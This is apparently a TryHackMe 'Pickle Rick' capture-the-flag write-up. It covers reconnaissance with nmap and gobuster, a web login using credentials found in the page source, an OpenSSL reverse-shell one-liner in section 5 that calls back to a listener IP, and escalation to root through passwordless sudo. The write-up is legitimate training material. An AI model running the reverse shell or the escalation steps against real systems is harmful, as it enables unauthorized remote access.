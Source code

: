 # Pickle Rick<!-- omit in toc -->

---

Machine by [ar33zy](https://tryhackme.com/p/ar33zy)

[Tryhackme link](https://tryhackme.com/room/picklerick)

---

## Table of Content<!-- omit in toc -->

- [1. Nmap Scan](#1-nmap-scan)
- [2. Website](#2-website)
- [3. gobuster \& dirbuster](#3-gobuster--dirbuster)
- [4. Web login](#4-web-login)
- [5. Reverse Shell access](#5-reverse-shell-access)
- [6. First Flag](#6-first-flag)
- [7. Second Flag](#7-second-flag)
- [8. Third Flag](#8-third-flag)


---

Tools Used:

- Kali Linux
- NMAP
- gobuster
- dirbuster
- ncat


---

### 1. Nmap Scan

We'll scan the IP to see what services are running, first, let's visit the website.

![](img/picklerick01.png)

<br>

### 2. Website 

After visiting the website, we can't see anything that gives out any clues or ingridient.

After visiting the source code we can see the following, a username, we may be able to use a dictionary attack on ssh:

![](img/picklerick02.png)

After a little test with hydra, we can see that the server doesn't allow password access (only with public keys):

![](img/picklerick03.png)

<br>

### 3. gobuster & dirbuster

I've tried to use gobuster to list the available directories and some files on the webserver, i could find a assets folder with a bunch of pics, i ran binwalk on all of them but none resulted in any clues.
 
![](img/picklerick04.png)

The `robots.txt` file has a wierd text, i'll save it for later maybe: 

![](img/picklerick05.png)

After no successful clues i turned to dirbuster to look for php files, and found a `login.php`:

![](img/picklerick06.png)

<br>

### 4. Web login

We can see a login portal, for wich i'll use the user `R1ckRul3s` and password `Wubbalubbadubdub` that we found previously:

![](img/picklerick07.png)

And after logging in we can see the next command prompt, we are executing commands as `www-data` so we'll have limited access (all the other links on the navbar seem to lead to a dead end for the moment, so i'll ignore them):

![](img/picklerick08.png)

<br>

### 5. Reverse Shell access

Then i'll attempt to use a reverse shell that exploits openSSL from [this](https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/#openssl) website.
   
`mkfifo /tmp/s; /bin/sh -i < /tmp/s 2>&1 | openssl s_client -quiet -connect 10.8.32.220:4242 > /tmp/s; rm /tmp/s`

![](img/picklerick09.png)

As we can see we've got access to the machine:

![](img/picklerick10.png)

<br>

### 6. First Flag

We can see that there is a .txt file, if we cat that we can see the first flag:

![](img/picklerick11.png)

<br>

### 7. Second Flag

After entering the `/home/` folder we see a couple of user's homes, ubuntu doesn't contain any visible file, but rick does, and there we can find the second flag:

![](img/picklerick12.png)

<br>

### 8. Third Flag

Since we have a reverse shell access, let's try `sudo -l` to see if we have permissions on something:

![](img/picklerick13.png)

As we can see, we've got permissions on all commands without password.

So let's use sudo to see the contents of user root home folder, and we can see the third flag:

![](img/picklerick14.png)